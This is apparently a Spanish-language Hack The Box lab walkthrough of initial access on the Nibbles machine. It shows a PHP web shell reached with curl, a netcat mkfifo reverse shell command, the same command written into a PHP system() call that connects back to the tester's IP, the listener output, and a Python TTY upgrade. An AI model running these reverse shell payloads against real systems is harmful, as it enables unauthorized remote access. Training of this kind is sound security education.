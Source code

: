 **Nibbles - Acceso Inicial**

`pista95@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php  uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)`

¡Lo logramos! Parece que hemos obtenido ejecución remota de código en el servidor web, y el servidor Apache está ejecutándose en el contexto del usuario `nibbler`. Modifiquemos nuestro archivo PHP para obtener un shell inverso y empezar a explorar el servidor.

Editemos nuestro archivo PHP local y volvamos a subirlo. Este comando debería proporcionarnos un shell inverso. Como se mencionó anteriormente en el módulo, existen muchas guías de shell inverso. Algunas excelentes son las de **PayloadAllTheThings** y **HighOn.Coffee**.

Utilicemos el siguiente comando de shell inverso en Bash y añadámoslo a nuestro script PHP.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_ATACANTE> <PUERTO_ESCUCHA> >/tmp/f`

Sustituiremos `<IP_ATACANTE>` por la dirección IP de nuestra VPN tun0, y un puerto de nuestra elección para `<PUERTO_ESCUCHA>` para capturar el shell inverso en nuestro listener de netcat. A continuación, el script PHP editado:

`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>`

Subimos el archivo nuevamente y comenzamos un listener de netcat en nuestra terminal:

**Nibbles - Acceso Inicial**

`0xdf@htb[/htb]$ nc -lvnp 9443  listening on [any] 9443 ...`

Luego, realiza un `curl` a la página de la imagen nuevamente o navega a ella en Firefox: `http://nibbleblog/content/private/plugins/my_image/image.php` para ejecutar el shell inverso.

**Nibbles - Acceso Inicial**

`pista95@htb[/htb]$ nc -lvnp 9443  listening on [any] 9443 ... connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106 /bin/sh: 0: can't access tty; job control turned off $ id  uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)`

Tenemos un shell inverso. Antes de seguir con más enumeración, actualicemos nuestro shell a uno "más amigable", ya que el que capturamos no es completamente interactivo (no podemos usar `su`, editores de texto, completado de tabulaciones, etc.). Este post explica el problema y varias formas de actualizar a un TTY interactivo. Para nuestro propósito, utilizaremos un comando de Python para generar un pseudo-terminal.

`python -c 'import pty; pty.spawn("/bin/bash")'`

Prueba las diferentes técnicas para actualizar a un TTY completo y elige la que mejor te funcione. Nuestro primer intento falla ya que Python2 parece faltar en el sistema.

**Nibbles - Acceso Inicial**


`$ python -c 'import pty; pty.spawn("/bin/bash")'  /bin/sh: 3: python: not found`

Sin embargo, tenemos Python3, que funciona para obtener un shell más amigable con el comando `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Al explorar `/home/nibbler`, encontramos el archivo `user.txt` y un archivo comprimido `personal.zip`.

**Nibbles - Acceso Inicial**

`nibbler@Nibbles:/home/nibbler$ls personal.zip  user.txt`
